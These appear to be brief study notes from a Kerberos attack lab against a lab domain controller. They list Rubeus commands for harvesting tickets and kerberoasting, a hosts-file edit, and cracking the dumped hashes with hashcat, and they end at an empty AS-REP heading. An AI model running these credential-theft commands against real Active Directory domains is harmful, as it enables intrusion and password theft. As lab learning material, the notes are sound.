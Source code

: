 

Harvesting Tickets w/ Rubeus
> Rubeus.exe harvest /interval:30

Brute-Forcing / Password-Spraying w/ Rubeus
>echo 10.10.190.126 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts

This added the IP and controller.local tot he hosts file

> Rubeus.exe kerberoast
- this dumps the kerberos hash of any kerberoastable users
- transfer hash to .txt file and use hashcat

Dumping KRBASREP5 Hashes w/ Rubeus